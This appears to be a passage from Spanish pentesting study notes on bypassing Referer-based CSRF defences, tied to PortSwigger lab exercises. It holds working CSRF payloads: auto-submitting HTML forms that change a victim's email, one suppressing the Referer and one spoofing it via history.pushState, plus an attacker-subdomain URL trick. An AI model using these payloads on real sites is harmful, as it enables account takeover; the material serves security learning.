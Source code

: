 Si queréis profundizar mas en este tipo de vulnerabilidad os recomiendo que le echéis un ojo a esta web: [https://www.blackhillsinfosec.com/cant-stop-wont-stop-hijacking-websockets/](https://www.blackhillsinfosec.com/cant-stop-wont-stop-hijacking-websockets/)

# Bypass referer header

Hay aplicaciones que validan esta cabecera cuando esta presente en la petición pero no realizan la validación si se omite por lo que se puede llegar a realizar un csrf omitiéndola.

Para comprobar si es vulnerable:

1. Cambiar dominio de referer y observar respuesta.
2. Eliminar cabecera y comprobar respuesta.

```jsx
<meta name="referrer" content="never">
```

```jsx
<html>
    <body>
        <form action="https://URL-VULNERABLE/my-account/change-email" method="POST" >
            <input type="hidden" name="email" value="antu97@test.com" />
            <meta name="referrer" content="never">
        </form>
        <script>
      document.forms[0].submit();
    </script>
    </body>
</html>
```

Laboratorio [aqu](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present)í.

Algunas aplicaciones solo validan que el valor de la cabecera contenga el dominio por lo que un atacante puede utilizar dicho dominio como subdominio del dominio del atacante como en el ejemplo siguiente:

```jsx
http://vulnerable-website.com.attacker-website.com/csrf-attack
```

Otra forma de validación utilizadas por algunas aplicaciones es que el valor de la cabecera contenga el propio dominio por lo que se puede añadir el dominio del atacante a este.

```jsx
http://vulnerable-website.com.attacker-website.com/csrf-attack
```

```jsx
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://ID-LABORATORIO.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="antu97@test.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?ID-LABORATPORIO.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Laboratorio [aqu](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken)í.